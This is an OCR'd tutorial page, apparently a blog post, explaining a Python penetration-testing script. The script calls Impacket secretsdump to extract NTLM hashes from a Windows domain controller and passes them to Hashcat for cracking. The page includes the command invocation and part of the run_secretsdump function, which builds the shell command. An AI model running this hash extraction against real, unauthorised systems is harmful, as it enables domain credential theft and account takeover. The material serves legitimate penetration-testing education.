 
Script Execution (Continued)
Running the Script

Now, let's explore how to execute the script with various command-line parameters:

bash

./script_name.py -d example.com -u username -p password -ip 192.168.1.1 -w wordlist.txt -r rules -O

In this example:

    -d, --domain: Specifies the domain name as "example.com."
    -u, --user: Specifies the username as "username."
    -p, --password: Specifies the password as "password."
    -ip, --ipaddress: Specifies the IP address as "192.168.1.1."
    -w, --wordlist: Specifies the wordlist for Hashcat as "wordlist.txt."
    -r, --rules: Specifies Hashcat rules as "rules."
    -O, --optimized: Enables optimized mode in Hashcat.

This flexibility allows penetration testers to adapt the script to diverse testing scenarios.

Extracting NTLM Hashes

Our journey into NTLM hash extraction begins with the run_secretsdump function, a critical part of the script that interfaces with Impacket to obtain NTLM hashes from a Windows domain controller.
run_secretsdump Function

The run_secretsdump function is responsible for crafting and executing the Impacket command to extract NTLM hashes. Let's break down its key components:

python

def run_secretsdump(args):
    if args.user:
        cmd = f"impacket-secretsdump {args.domain}/{args.user}:'{args.password}'@{args.ipaddress} -just-dc-ntlm"
    else:
        cmd = f"impacket-secretsdump -k -no-pass {args.domain}"

    print("Secretsdump is working...\n")

    result = subprocess.run(cmd, shell=True, capture_output=True, text=True)
    lines = result.stdout.split('\n')

    start = False
    relevant_lines = []
    nt_hashes = []

    for line in lines:
        # ...
        # (Code for processing lines and extracting NTLM hashes)
        # ...
